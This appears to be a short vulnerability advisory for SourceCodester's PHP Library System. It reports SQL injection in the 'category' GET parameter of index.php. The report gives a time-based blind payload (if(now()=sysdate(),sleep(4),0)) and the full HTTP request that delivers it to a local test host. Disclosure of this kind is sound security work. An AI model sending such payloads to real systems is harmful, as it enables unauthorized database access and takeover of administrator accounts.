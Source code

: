 **BUG_Author:**

Rone

**Vendor:**

[SourceCodester](https://vuldb.com/?vendor.sourcecodester)

**Software:**

Library System using PHP/MySQli with Source Code | SourceCodester](https://www.sourcecodester.com/php/12275/library-system-using-php.html)

**Vulnerability File:**
index.php

**Description:**

SerBermz Book Management System Exists SQL Injection Vulnerability on Index.php Page

The parameter category was not processed correctly. Hackers can exploit this vulnerability to manipulate the administrator account of the system and have complete control over account information.

Status: Critical

SQL injection exists for GET parameter category

Payload:if(now()=sysdate(),sleep(4),0)

GET /libsystem/index.php?category=if(now()=sysdate(),sleep(4),0) HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

![image-20231010235824835](C:\Users\Rone\Desktop\image\image-20231010235824835.png)









